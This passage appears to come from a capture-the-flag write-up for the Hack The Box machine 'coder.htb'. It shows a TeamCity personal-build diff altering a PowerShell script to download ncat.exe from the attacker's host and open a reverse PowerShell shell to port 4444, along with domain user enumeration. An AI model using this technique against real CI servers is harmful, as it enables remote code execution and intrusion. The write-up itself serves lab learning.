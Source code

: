 
![Image](https://i.imgur.com/DKh7XW3.png)


We can execute the task through the "Run" button, and we can consult the Build Log to verify what is being executed.

![Image](https://i.imgur.com/xMKwUoI.png)

It runs a script called "hello_world.ps1", this script is located in the SMB in the teamcity_test_repo folder.

![Image](https://i.imgur.com/A8kKanC.png)

We can connect on SMB directly in explorer to get the files.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smb://coder.htb/Development
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![Image](https://i.imgur.com/EIlzrbz.png)

Now we copy the entire repository to our machine

![Image](https://i.imgur.com/AZ2XfLX.png)







With the directory cloned, we can see the git logs and also interact with it.

![Image](https://i.imgur.com/gmjh5Un.png)

On the site, when we click on "..." next to Run, we have the option of "run as a personal build" where it allows us to upload a diff file.

Therefore, we can edit the "hello_world.ps1" file so that we can execute commands when the diff is executed.
We will put some commands in the diff file, all these commands will be executed, we will create the C:/temp directory so that we can write ncat.exe that we will download from our machine to create the reverse connection to obtain a shell.


For this we will need to open a webserver on our machine, we will use python:

![Image](https://i.imgur.com/2EwMnXG.png)

Our hello_world.ps1 file:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
#Simple repo test for Teamcity pipeline
mkdir C:\temp
Invoke-WebRequest -Uri http://10.10.14.54/other/ncat.exe -outfile C:\temp\ncat.exe
write-host "Hello, World!"
whoami /all
net user /domain
net user e.black /domain
$netcatPath = 'C:\temp\ncat.exe'
$arguments = '-e', 'powershell.exe', '10.10.14.54', '4444'
$process = Start-Process -FilePath $netcatPath -ArgumentList $arguments -NoNewWindow -PassThru
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
